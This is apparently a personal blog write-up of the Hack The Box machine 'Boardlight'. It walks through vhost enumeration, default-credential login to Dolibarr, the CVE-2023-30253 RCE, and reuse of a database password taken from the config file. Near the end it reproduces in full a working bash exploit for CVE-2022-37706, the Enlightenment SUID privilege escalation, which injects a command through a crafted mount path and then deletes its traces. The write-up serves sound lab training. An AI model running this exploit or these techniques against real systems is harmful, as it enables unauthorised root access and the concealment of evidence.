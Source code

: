 +++
title = 'Boardlight'
description = 'Easy Linux box'
date = 2024-08-24T16:50:47-04:00
draft = false
tags = ["linux"]
category = ["htb"]
summary = "HTB - Linux - Easy"
+++



A Really easy HTB box that looks into vhost enumeration and a CVE 2023-30253.


# Enum

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## 80
```bash
┌──(fish㉿kali)-[~/htb/BoardLight]
└─$ whatweb $IP     
http://10.10.11.11 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@board.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.11], JQuery[3.4.1], Script[text/javascript], X-UA-Compatible[IE=edge]

```



This took a while :( but have to check for vhosts when you have a domain.


We can us ffuf to do this:
```bash
┌──(fish㉿kali)-[~/htb/BoardLight]
└─$ ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://board.htb -H 'Host: FUZZ.board.htb' -fs 15949
```



And we find one! `crm.board.htb`, we need to add it to our hosts file then we can browse to it directly


Looking through the source, we see some comments but I don't think these will help us.


```html
<!-- authentication mode = dolibarr -->
<!-- cookie name used for this session = DOLSESSID_3dfbb778014aaf8a61e81abec91717e6f6438f92 -->
<!-- urlfrom in this session =  -->

<!-- Common footer is not used for login page, this is same than footer but inside login tpl -->
```

A google search shows multiple exploits and a CVE(2023-30253):



---
# Foothold


We found the site is running a vulnerable version of Dolibarr a CRM with a RCE exploit available but it requires a valid username and password.

Trying the low hanging fruit `admin:admin` gets us in and we can run the first github exploit result after reading through the python code.


We're going to want to look for a config file because we know the app interfaces with mysql we might be able to find some hardcoded creds, linpeas doesn't pick up anything but if we look at the documentation for dolibarr we find it at `/var/www/html/crm.board.htb/htdocs/conf/conf.php`

https://wiki.dolibarr.org/index.php?title=Configuration_file

And we get a potential password:


`serverfun2$2023!!`

We could potentially log into the database and look for anything else interesting or we can check for password re-use. We did find another user on  the box `larissa`. 



Logging in with the cred above as larissa works!


## Exploits
#CVE-2023-30253
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253


--- 
# PrivEsc

Running linpeas again finds some interesting SUID binaries


```bash
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)

```


```bash

#!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

echo -e "If it is not found in fstab, big deal :D "
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"
```

We can create a exploit.sh with the exploit code, make it executable with `chmod +x `, and run it to get root.




## Exploits
https://raw.githubusercontent.com/nu11secur1ty/CVE-mitre/main/CVE-2022-37706/docs/exploit.sh
#suid

---



